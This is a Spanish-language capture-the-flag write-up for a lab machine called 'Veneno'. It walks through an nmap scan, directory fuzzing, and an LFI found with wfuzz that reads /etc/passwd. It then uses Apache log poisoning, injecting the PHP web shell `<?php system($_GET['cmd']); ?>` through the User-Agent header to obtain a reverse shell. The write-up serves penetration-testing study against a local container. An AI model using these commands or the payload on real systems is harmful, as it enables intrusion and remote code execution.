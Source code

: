 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  
Para ello interceptaremos la petición a la página (http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log.  
Ahora modificaremos el campo User Agent con la cadena:   

`<?php system($_GET['cmd']); ?>`   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_10.png)     

Ahora añadiremos un **&cmd** al final pasandole una reverse shell en php url encodeada y nos pondremos a la escucha en nuestra maquina atacante.     

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_11.png)   

Bien, estamos dentro.  
Ahora haremos el tratamiento de la shell para poder trabajar de forma más comoda.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_12.png) 
![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_13.png)  



















